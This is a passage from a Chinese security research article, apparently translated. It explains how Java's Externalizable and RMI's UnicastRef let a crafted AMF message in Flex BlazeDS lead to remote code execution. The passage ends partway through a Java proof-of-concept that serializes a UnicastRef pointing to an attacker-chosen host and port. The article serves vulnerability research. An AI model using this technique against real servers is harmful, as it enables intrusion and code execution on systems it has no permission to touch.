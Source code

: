 **Externalizable特性**

我们可以拿Externalizable特性赖于Java的java.io.Externalizable接口进行对比。实际上，很多厂商早就已经将flash.utils.IExternalizable接口的规范进行了调整，其实它与Java的java.io.Externalizable区别不大，这种特性将允许我们可以高效地对实现了java.io.Externalizable接口的类进行重构。

java.io.Externalizable接口定义了两个方法：即readExternal（java.io.ObjectInput）和writeExternal（java.io.ObjectInput），而这两个方法将允许java类完全控制序列化以及反序列化操作。这也就意味着，在程序的运行过程中不存在默认的序列化／反序列化行为以及有效性检测。因此，相对于java.io.Serializable来说，我们使用java.io.Externalizable来实现序列化／反序列化则更加的简单和高效。

<br>

**将EXTERNALIZABLE.READEXTERNAL转换为OBJECTINPUTSTREAM.READOBJECT**

在OpenJDK 8u121中总共有十五个类实现了java.io.Externalizable接口，而其中绝大多数类的任务仅仅是重构一个对象的状态而已。除此之外，实际传递给Externalizable.readExternal（java.io.ObjectInput）方法的java.io.ObjectInput实例也并非java.io.ObjectInputStream的实例。

在这十五个类中，那些与RMI有关的类则吸引了我们的注意。尤其是sun.rmi.server.UnicastRef和sun.rmi.server.UnicastRef2，因为他们会通过sun.rmi.transport.LiveRef.read(ObjectInput, boolean)方法来对sun.rmi.transport.LiveRef对象进行重构。除此之外，这个方法还会重构一个sun.rmi.transport.tcp.TCPEndpoint对象以及一个本地sun.rmi.transport.LiveRef对象，并且在sun.rmi.transport.DGCClient中进行注册。其中，DGCClient负责实现客户端的RMI分布式垃圾回收系统。DGCClient的外部接口为“registerRefs”方法，当一个LiveRef的远程对象需要进入虚拟机系统时，它需要在DGCClient中进行注册。关于DGCClient的更多内容请参考OpenJDK给出的官方文档【[传送门](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/file/jdk8u121-b00/src/share/classes/sun/rmi/transport/DGCClient.java#l54)】。

根据官方文档中的描述，LiveRef的注册是由一次远程调用完成的，而我们觉得这里将有可能允许我们通过RMI来实现远程代码执行（RCE）！

在对这次调用进行了追踪分析之后，我们发现整个调用过程非常复杂，它涉及到Externalizable.readExternal、sun.rmi.server.UnicastRef/sun.rmi.server.UnicastRef2、ObjectInputStream.readObject以及sun.rmi.transport.StreamRemoteCall.executeCall()等多种对象及方法。

[![](./img/85846/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01fcd740767cabd425.png)

接下来让我们来看看，如果我们通过一个sun.rmi.server.UnicastRef对象来对一条AMF消息进行反序列化的话会出现什么情况，相关代码如下所示（利用了Flex BlazeDS）：



```
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.util.Arrays;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.ActionContext;
import flex.messaging.io.amf.ActionMessage;
import flex.messaging.io.amf.AmfMessageDeserializer;
import flex.messaging.io.amf.AmfMessageSerializer;
import flex.messaging.io.amf.MessageBody;
public class Amf3ExternalizableUnicastRef {
public static void main(String[] args) throws IOException, ClassNotFoundException {
if (args.length &lt; 2 || (args.length == 3 &amp;&amp; !args[0].equals("-d"))) {
System.err.println("usage: java -jar " + Amf3ExternalizableUnicastRef.class.getSimpleName() + ".jar [-d] &lt;host&gt; &lt;port&gt;");
return;
}
boolean doDeserialize = false;
if (args.length == 3) {
doDeserialize = true;
args = Arrays.copyOfRange(args, 1, args.length);
}
// generate the UnicastRef object
Object unicastRef = generateUnicastRef(args[0], Integer.parseInt(args[1]));
// serialize object to AMF message
byte[] amf = serialize(unicastRef);
// deserialize AMF message
if (doDeserialize) {
deserialize(amf);
} else {
System.out.write(amf);
}
}
public static Object generateUnicastRef(String host, int port) {
```